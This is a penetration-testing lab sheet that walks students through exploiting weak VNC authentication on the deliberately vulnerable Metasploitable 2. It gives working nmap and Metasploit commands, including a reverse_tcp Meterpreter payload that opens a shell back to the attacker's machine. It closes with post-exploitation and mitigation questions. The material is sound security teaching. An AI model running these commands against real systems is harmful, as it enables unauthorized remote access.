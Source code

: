 # Task: Exploiting VNC Service on Metasploitable 2 (Port 5900)

### Learning Objectives

By the end of this exercise, students will be able to:

* Perform service enumeration on a target system.
* Identify the VNC service running on port `5900`.
* Use Metasploit to exploit weak authentication in VNC.
* Gain a remote shell session on Metasploitable 2.
* Understand the importance of secure configurations for remote desktop services.



### Background

Metasploitable 2 is an intentionally vulnerable Linux machine used for penetration testing practice. One of its services, **VNC (Virtual Network Computing)**, is exposed on port **5900**. VNC allows remote desktop access, but if misconfigured (like using weak authentication), attackers can gain control of the system.



### Lab Requirements

* Kali Linux (Attacker)
* Metasploitable 2 (Target)
* Both machines on the same network (e.g., VirtualBox/VMware Host-only or NAT network).



### Step 1: Reconnaissance with Nmap

Scan Metasploitable to find open ports:

```bash
nmap -sV -p 5900 <target_ip>
```

* `-sV` → Detect service version
* `-p 5900` → Scan only the VNC port

👉 Expected Output:
Shows `5900/tcp open vnc`.



### Step 2: Search for Vulnerabilities in Metasploit

Start Metasploit:

```bash
msfconsole
```

Search for VNC-related exploits:

```bash
search vnc
```

👉 You should find modules like:

* `auxiliary/scanner/vnc/vnc_none_auth`
* `exploit/multi/vnc/vnc_keyboard_exec`
* `auxiliary/scanner/vnc/vnc_login`



### Step 3: Use the VNC Authentication Bypass Module

Select the module:

```bash
use auxiliary/scanner/vnc/vnc_none_auth
```

Set target IP:

```bash
set RHOSTS <target_ip>
run
```

👉 If vulnerable, it confirms **no authentication is required**.



### Step 4: Exploit and Gain Access

Now, attempt to interact with the session:

```bash
use exploit/multi/vnc/vnc_keyboard_exec
set RHOST <target_ip>
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST <your_kali_ip>
exploit
```

👉 Expected Result:
You get a **Meterpreter session** or a remote shell on Metasploitable.



### Step 5: Post-Exploitation

Once inside:

```bash
shell
whoami
uname -a
```

* Confirm you have remote access.
* Enumerate the system.


### Step 6: Discussion / Mitigation

* Why is running VNC without authentication dangerous?
* How should VNC be secured? (passwords, encryption, network restrictions, VPNs).



###  Deliverables for Students

* Nmap scan result screenshot.
* Proof of successful VNC exploitation (shell access).
* Short write-up: *“How could this vulnerability be prevented in a real system?”*
